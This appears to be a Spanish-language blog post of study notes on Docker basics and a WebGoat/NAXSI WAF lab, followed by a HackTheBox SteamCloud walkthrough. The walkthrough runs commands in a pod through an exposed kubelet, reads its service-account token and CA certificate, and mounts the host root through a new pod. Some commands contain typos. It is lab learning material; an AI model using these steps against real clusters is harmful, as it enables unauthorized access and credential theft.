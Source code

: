 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#descargas_config">Descargas y configuraciones</a>
- <a href="#internal_network">Redes internas de docker</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
Docker es una alternativa a la gestion de contenedores como Parallels que en su momento tambien lo mencionaron en mi maestria. Para gestionar servicios de seguridad como navegadores seguros o verificacion de archivos tambien existe otro SO que se llama QUBES, de linux y contiene las aplicaciones fuera del sistema operativo host, pero te facilita tambien el intercambio de archivos entre estos contenedores.

## [](#header-2)<a id="descargas_config">Descargas y configuraciones</a>
Empezaremos este breve manual descargando una imagen de docker hub con el comando

*Todos los comandos se deben ejecutar con sudo para que el daemon de docker reaccione*

```s
#Imagen de Webgoat de OWASP, este sera nuestro servidor inseguro
sudo docker pull webgoat/webgoat-8.0
sudo docker pull scollazo/naxsi-waf-with-ui
```
Para verificar las imagenes que tenemos descargadas podemos hacer un:

```s
sudo docker image ls
```
Para listar los contenedores que estan corriendo:
```s
docker ps
#Para listar los que estan parados tambien, agregamos la flag -a
docker ps -a
```

Para borrar los contenedores podemos hacer un

```s
#Borrar imagenes
docker image rm ubuntu:22.04
#Borra en contenedores que no se han usado
docker container prune

#Borrar individualmente 
docker rm -f [Container]
```

Para iniciar el WAF y proteger nuestro servidor inseguro, usaremos NAXSI

Para iniciar con una shell iteractiva podemos agregar un 

```s
sudo docker run -it ubuntu:waf_test
```

Para iniciar con un nombre especifico, haremos un

```s
docker run -d --name webGoat webgoat/webgoat-8.0
```

Para iniciar un contenedor con una variable de entorno

```s
docker run -d --name WAF -p [MAquina]:[contenedor] --env WEBSERVER=[nombre contenedro]:[PORT] scollazo/naxsi-waf-with-ui
```

Para publicar una imagen haremos un

```s
sudo docker login
#Para crear nuestra propia version de la imagen primero haremos un
socker tag ubuntu:waf_test rebick/ubuntu:waf_test
sudo docker push rebick/ubuntu:waf_test
```

![Comandos](/assets/images/docker_platzi/carbon%20(3)-975f4d64-9144-4a75-a8ba-0eceba66db50.webp)

Otro asunto importante es que a veces no podemos ver como se configuro una imagen, y para ver como se configuro existen unos tags, para entrar en ellos podemos usar una herramienta llamada <a href="https://github.com/wagoodman/dive.git">dive</a>

## [](#header-2)<a id="internal_network">Redes internas de docker</a>
Docker dispone de interfaces de redes para comunicacion entre los contenedores, para listarlos usaremos el comando

```s
docker network ls
```
Bridge que es el default de docker.

Host es una representacion en docker de la red real de la maquina, si quisiera que un contenedor tuviera acceso a todas las maquinas tendria que permitirle usar esta red.

none, seria para que el contenedor no pudiera tener acceso a la red.

![Network list](/assets/images/docker_platzi/network_ls.png)

Tambien podemos crear nuestra propia red con:

```s
docker network create wafnet
#Para que los contenedores se puedan conectar a esta red solo agregariamos el parametro attachable
docker network create --atachable wafnet
#Para ver las opciones de la red
docker network inspect wafnet
#Para conectar un contenedor a una red
docker network connect wafnet [nombre del contenedor]
```

## [](#header-2)<a id="practica">Practica</a>


Corremos el contenedor del servicio vulnerable, exponemos el puerto 8081 de nuestra maquina y lo visualizamos como el puerto 8080 del contenedor.

```s
sudo docker run -it -p 8081:8080 --name webGOAT webgoat/webgoat-8.0
```

Corremos el contenedor de naxsi y lo configuramos para exponer el puerto 8080 de nuestra maquina y visualizarlo como el 8080 de naxsi.

```s
sudo docker run -e BACKEND_IP=webGOAT -it -p 8080:80 --name naxsi scollazo/naxsi-waf-with-ui
```

Notas de hacking a SteamCloud HacktheBox, contenedores de docker.
El escaneo con nmap, nos trajo el puerto 8443 y 10250, el cual es un API para la gestión de contenedores.
```s
nmap 10.129.96.98 --max-retries=0 -T4 -p-
```

Podemos hacer una consulta al contenedor con 
```s
curl https://10.129.96.98:8443/ -k
curl https://10.129.96.98:10250/pods -k
```

Utilizaremos kubeletctl para descubrir lo que hay dentro de estos pods, para descargarlo usamos el comando con privilegios:
```s
curl -LO
https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64
chmod a+x ./kubeletctl_linux_amd64
mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

Ahora veremos la información dentro de los pods con:
```s
kubeletctl --server 10.129.96.98 pods
```

Ahora necesitaremos saber en que pod podemos ejecutar comandos, para ello tenemos el comando
```s
kubeletctl --server 10.129.96.98 scan rce
```

El resultado nos dice que podemos ejecutar comandos en el pod nginx, y para hacerlo usamos el comando:
```s
kubeletctl --server 10.129.96.98 exec "id" -p nginx -c nginx
```
PRIVILEGE ESCALATION
Ahora podemos ver si tenemos acceso a los tokens y certificados y así poder crear una cuenta con permisos altos
Con los siguientes comandos guardaremos y exportaremos en la variable token el token de la consulta, y con el otro comando guardamos el output en el archivo ca.crt
```s
export token=$(kubeletctl --server 10.129.96.98 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
kubeletctl --server 10.129.96.98 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx >> ca.crt
```
Nos crearemos un archivo para crear el nuevo contenedor con un archivo f.yml
```yml
apiVersion: v1
kind: Pod
metadata:
name: nginxt
namespace: default
spec:
containers:
- name: nginxt
image: nginx:1.14.2
volumeMounts:
- mountPath: /root
name: mount-root-into-mnt
volumes:
- name: mount-root-into-mnt
hostPath:
path: /
automountServiceAccountToken: true
hostNetwork: true
```

Ahora creamos el contenedor con:
```s
kubectl --token=$token --certificate-authority=ca.crt -- server=https://10.129.96.98:8443 apply -f f.yaml
```
Y listamos para revisar que se haya creado
```s
kubectl --token=$token --certificate-authority=ca.crt -- server=https://10.129.96.98:8443 get pods
```
Y ahora tendremos acceso a las flags.
```s
kubeletctl --server 10.129.96.98 exec "cat /root/home/user/user.txt" -p nginxt -c
nginxt
kubeletctl --server 10.129.96.98 exec "cat /root/root/root.txt" -p nginxt -c nginxt
```

Al final tuve que utilizar la version antes mencionada de kubectl y la reciente del sitio https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/


## [](#header-2)<a id="docker_files">Docker files</a>


## [](#header-2)<a id="docker_vulnerabilities">Docker Common Vulnerabilities</a>
### [](#header-3)<a id="docker_vulnerabilidad_1">Docker Vulnerabilitie 1</a>
Podemos usar la utilidad capsh
```s

```
### [](#header-3)<a id="docker_vulnerabilidad_2">Docker Vulnerabilitie 2</a>
```s

```
### [](#header-3)<a id="docker_vulnerabilidad_3">Docker Vulnerabilitie 3</a>
```s

```
### [](#header-3)<a id="docker_vulnerabilidad_4">Docker Vulnerabilitie 4</a>